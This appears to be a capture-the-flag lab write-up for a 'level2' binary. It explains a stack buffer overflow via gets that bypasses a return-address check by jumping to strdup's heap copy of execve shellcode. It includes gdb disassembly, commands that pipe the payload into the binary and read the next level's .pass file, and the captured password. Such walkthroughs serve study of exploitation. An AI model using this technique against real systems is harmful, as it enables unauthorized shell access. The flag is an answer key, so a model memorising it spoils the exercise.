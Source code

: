 solution level2:

-> with gdb, we see that the main simply calls a function called "p"

-> "p" uses gets, so we can certainly exploit the buffer overflow vulnerability. There are no functions in the program calling either system or execve so we will insert a shellcode in our buffer. This shellcode will launch a new shell with execve

-> however, right after the call to gets, the function fetches the return address (the saved eip) and performs a check:
...
0x080484f2 <+30>:	mov    eax,DWORD PTR [ebp+0x4]
0x080484f5 <+33>:	mov    DWORD PTR [ebp-0xc],eax
0x080484f8 <+36>:	mov    eax,DWORD PTR [ebp-0xc]
0x080484fb <+39>:	and    eax,0xb0000000
0x08048500 <+44>:	cmp    eax,0xb0000000
...

-> if the return address starts by 0xb, the function exits

-> else "p" calls puts, then returns the return value of the call to strdup with the buffer as argument
...
0x08048532 <+94>:	lea    eax,[ebp-0x4c]
0x08048535 <+97>:	mov    DWORD PTR [esp],eax
0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
...

-> since our buffer is on the stack and the addresses of our stack frame start with 0xb, changing the return address to the beginning of the buffer won't work. We have to find another way to pass the address check at <p+44>

-> fortunately, the return value of our call to strdup is 0x804a008, which would pass the check. And we know the return value of strdup is the address of our duplicated buffer, in other words it points to the beginning of our shellcode

> scp -P 2222 Ressources/run.sh level2@127.0.0.1:/tmp/

> bash /tmp/run.sh
> cat /tmp/overf - | ./level2
> cat /home/user/level3/.pass
> 492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
